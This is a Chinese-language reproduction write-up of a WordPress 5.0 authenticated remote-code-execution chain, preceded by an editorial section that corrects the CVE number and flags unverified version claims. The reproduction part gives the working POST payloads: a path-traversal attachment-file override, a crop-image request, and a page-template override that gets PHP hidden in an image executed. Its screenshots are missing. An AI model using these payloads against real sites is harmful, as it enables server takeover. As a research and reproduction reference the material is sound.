








## 核对与使用边界

- 明确更正：CVE-2019-6977 对应 LibGD gdImageColorMatch 堆溢出，不是这里 WordPress 图片裁剪/路径链的正确统一编号。将其从主编号移为历史引用；CVE-2019-8942、8943 与各阶段的对应仍需原研究逐项核定。
- 必须有 author 账号和具体图像处理、主题写入/执行条件；5.0.0、4.9.9、alpha 构建和补丁时间不能混作一个受影响区间。

核对来源：[CVE-2019-6977 CNA 记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2019/6xxx/CVE-2019-6977.json)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：author; vulnerablemetadatawrites,croppingpreservesPHP,theme writable; range4.9.9–5.0.0 claimed

- **事实待核（1）**：标题6977与正文crop-image/metadata链不匹配疑点；相邻566完整模块将同链标8942+8943，须优先核CVE映射。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：正文称4.9.9–5.0.0而566模块&lt;=4.9.8/5.0.0，需按两漏洞不同补丁边界区分。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：官方5.0.0下载包已修复是高风险归档断言，需哈希/下载日期证据。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（4）**：图片需保留PHP代码是核心前提但没有生成方法，固定nonce/id不可复用；有FreeBuf来源。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（5）**：多平台原理可行不代表具体模块平台支持，应和566Unix限制分开。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-6977）WordPress 5.0 RCE
==================================

一、漏洞简介
------------

漏洞条件：拥有一个author权限的账号

二、漏洞影响
------------

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release
5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress
5.1-alpha-44280更新后未更新的4.9.9\~5.0.0的WordPress都受到该漏洞影响。

三、复现过程
------------

传图片

WordPress5.0rce/media/rId24.png)

改信息

WordPress5.0rce/media/rId25.png)

保留该数据包，并添加POST

    &meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg

触发需要的裁剪

WordPress5.0rce/media/rId26.png)

裁剪

WordPress5.0rce/media/rId27.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

    action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100

触发需要的裁剪

WordPress5.0rce/media/rId28.png)

图片已经过去了

WordPress5.0rce/media/rId29.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

    &meta_input[_wp_page_template]=cropped-32.jpg

WordPress5.0rce/media/rId30.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

WordPress5.0rce/media/rId31.png)

四、参考链接
------------

> <https://www.freebuf.com/vuls/196514.html>
